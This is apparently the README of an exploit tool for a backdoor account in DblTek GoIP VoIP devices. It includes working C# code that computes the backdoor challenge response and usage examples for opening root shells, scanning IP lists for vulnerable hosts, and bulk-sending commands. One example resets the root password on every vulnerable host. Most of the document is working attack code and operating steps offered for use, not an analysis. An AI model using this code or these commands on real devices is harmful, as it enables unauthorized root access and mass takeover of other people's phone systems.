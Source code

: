 # DblTekGoIPPwn

Tool to exploit challenge response system in vulnerable DblTek GoIP devices. Can generate responses to
specified challenges, test hosts for the vulnerability, run commands on vulnerable hosts, and drop
into a root shell on any vulnerable host.

## The Vulnerability

On March 2nd, 2017, Trustwave released a vulnerability that security researchers found in the DblTek
GoIP VoIP Phone. The vulnerability was a backdoor in the firmware for an account named 'dbladm'. When
a user entered this as their username in a telnet prompt, the system would present a challenge that when
followed with the right response, gave the user a root shell on the system.

The problem with such a challenge response system is that the devices are as secure as the algorithm for
generating the responses, which was reverse engineered from firmware binaries provided by DblTek. Using this
algorithm, a root shell can be aquired on ANY DblTek GoIP device.

Original Article: https://www.trustwave.com/Resources/SpiderLabs-Blog/Undocumented-Backdoor-Account-in-DBLTek-GoIP/

Using the description of the backdoor provided in the article, I was able to write what I believe to be
some of the first exploit code for this vulnerability. The core of this is of course the algorithm to
generate the response based on a given challenge. Here is a function to do this written in C#.

```C#
static string ComputeResponse(string challengeStr)
{
    int challenge = Convert.ToInt32(challengeStr.Substring(1)); // Get just the number after 'N'.

    string modified = (challenge + 20139 + (challenge >> 3)).ToString(); // Perform some dummy 1337 operations.

    byte[] buffer = new byte[64];
    // Copy the string into the first part of the buffer.
    for (int i = 0; i < modified.Length; i++)
        buffer[i] = (byte)modified[i];

    var md5 = MD5.Create();
    byte[] hash = md5.ComputeHash(buffer); // Calculate the MD5 of the buffer.

    StringBuilder sb = new StringBuilder(); // Will hold the results.
    // Take the unpadded hex value of the first six bytes of the MD5.
    for (int i = 0; i < 6; i++)
        sb.Append(hash[i].ToString("x"));

    return sb.ToString(); // Profit
}
```

## DblTekGoIPPwn Command Line Interface (CLI)

When DblTekPwn is ran without arguments, the help is displayed. This is the output:

```
USAGE: DblTekPwn.exe [MODE] [HOSTS] [OUTPUT]

[MODE]:
-c --compute-response [CHALLENGE]         Computes a response to the given challenge.
-r --root-shell                           Starts a root shell with the vulnerable host.
-s --send-commands    [COMMAND_FILE]      Sends commands from a file to vulnerable hosts.
-t --test                                 Tests hosts and determines if they are vulnerable.
-h --help                                 Displays this help and exits.

[HOSTS]:
-n --name             [IP]                Specifies a single IP address.
-f --file             [IP_FILE]           Specifies a file with IP\nIP\nIP.

[OUTPUT]:
-o --output           [OUTPUT_FILE]       Specifies an output file. Default stdin.
```

## Examples

### Getting a Root Shell on a Vulnerable System

DblTekGoIPPwn makes it easy to get a root shell on any vulnerable system. Simply run the
following command using the vulnerable IP.

```
DblTekPwn.exe --root-shell --name 192.168.1.1
```

You will see output that looks like this:
```
Password: ***********

```

From here you can begin entering commands (there is no shell prompt).

### Calculating a Challenge Response

Say you wanted to calculate the response to a GoIP challenge ```N1746203308```. You would just
run the following command.

```
DblTekPwn --compute-response N1746203308
```

The output will be the response:
```
d6176d3aab2
```

### Checking a List of IPs

Say you wished to check ```list.txt``` of IPs for GoIPs that are vulnerable and send this output
to ```results.txt```. First make sure that the IPs are in format ```ip:port``` (port is default 23)
and that the IPs are seperated by a newline ```\n```. The following command could then be ran.

```
DblTekPwn.exe --test --file list.txt --output results.txt
```

list.txt:
```
192.168.1.0
192.168.1.1
192.168.1.2:1337
192.168.1.3
192.168.1.4:2323
```

results.txt:
```
192.168.1.0 False
192.168.1.1 True
192.168.1.2:1337 True
192.168.1.3 False
192.168.1.4:2323 False
```

The ```False``` or ```True``` after the host indicates whether or not the IP is vulnerable.

### Sending Commands to a List of IPs

Say you had a list of commands (which is really a list of telnet inputs) in ```cmds.txt```
to send to ```list.txt``` of IPs and send the output to ```results.txt```. First make sure
that the IPs are in format ```ip:port``` (port is default 23) and that BOTH the IPs AND commands
are seperated by a newline ```\n``` in their respective files. The following command could then
be ran.

```
DblTekPwn.exe --send-commands cmds.txt --file list.txt --output results.txt
```

list.txt:
```
192.168.1.0
192.168.1.1
192.168.1.2:1337
192.168.1.3
192.168.1.4:2323
```

cmds.txt:
```
passwd root
toor
toor

exit
```

results.txt:
```
192.168.1.0 False
192.168.1.1 True
192.168.1.2:1337 True
192.168.1.3 False
192.168.1.4:2323 False
```

The ```False``` or ```True``` after the host indicates whether or not the connection was successfully
made and the commands delivered.

## DISCLAIMER

I never thought I would have to write one of these BUT, I am not liable in ANY WAY for misuse or illegality derrived from
this software. Anybody who says otherwise can contact my lawyers at http://tinyurl.com/2fcpre6
